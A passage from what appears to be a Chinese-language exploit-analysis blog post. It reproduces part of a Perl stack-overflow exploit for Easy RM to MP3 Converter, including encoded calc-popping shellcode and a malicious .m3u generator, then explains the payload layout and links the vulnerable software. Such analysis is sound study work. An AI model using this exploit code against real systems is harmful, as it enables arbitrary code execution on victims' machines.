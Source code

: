 ```perl
    "\x4b\x48\x4a\x46\x4a\x50\x4b\x4e\x49\x30\x4b\x58\x42\x38\x42\x4b".
    "\x42\x50\x42\x50\x42\x30\x4b\x48\x4a\x36\x4e\x53\x4f\x45\x41\x33".
    "\x48\x4f\x42\x36\x48\x45\x49\x48\x4a\x4f\x43\x38\x42\x4c\x4b\x47".
    "\x42\x55\x4a\x46\x42\x4f\x4c\x38\x46\x50\x4f\x55\x4a\x36\x4a\x39".
    "\x50\x4f\x4c\x38\x50\x50\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x36".
    "\x4e\x56\x43\x36\x50\x32\x45\x36\x4a\x57\x45\x56\x42\x30\x5a";
 
$id = $ARGV[0];
if ($id==1){
print "$header$junk$ret$nop$calc_shell";
exit;
}
print "\n";
print " ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++\n";
print " +++                                                              +++\n";
print " +++                                                              +++\n";
print " +++ Easy RM to MP3 Converter Universall Stack Overflow Exploit   +++\n";
print " +++ Written By Stack                                             +++\n";
print " +++                                                              +++\n";
print " +++   Usage Ex.: perl $0 1 >>Exploit.m3u                         +++\n";
print " +++                                                              +++\n";
print " ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++\n";
exit;
#EOF
```

exp是用perl写的，payload的组成如下：

![](/images/180624_1.png)

根据代码的注释以及我们对栈溢出的理解，可以知晓header和junk是用于填充ESP和EBP之间的内存空间（包括EBP本身），而"\xDB\x70\xBB\x01"是一个硬编码的地址，这个地址很可能是“jmp esp”类指令的地址。而ret addr之后部署了220个nop指令以及弹出计算器的shellcode。

这里有几个疑点：

1. header的数据是怎么来的？为什么不直接用junk填充呢？是否程序存在对局部变量开始的多字节合法检查？
2. 覆盖ret的地址处是什么指令？我们大胆的推测0x01BB70DB是该系统版本的一个稳定的“jmp esp”指令的地址。此时ESP指向calc_shell起始地址或是220个nop指令中的某个地址。
3. ret addr之后为什么要有220个字节的nop？
4. calc_shell是怎么来的？

## 崩溃现场

作者没有描述系统版本，也没有给出该软件的版本，但exp-db上收录了该漏洞软件，我们可以直接下载下来：

<https://www.exploit-db.com/apps/707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter.exe>

软件信息：

![](/images/180624_2.png)

我就这里直接用Win7 x86来调试了，按时间来推算，作者应该用的是xp sp2。

Perl目前不是很常用，改Python来重新复刻一版exp：
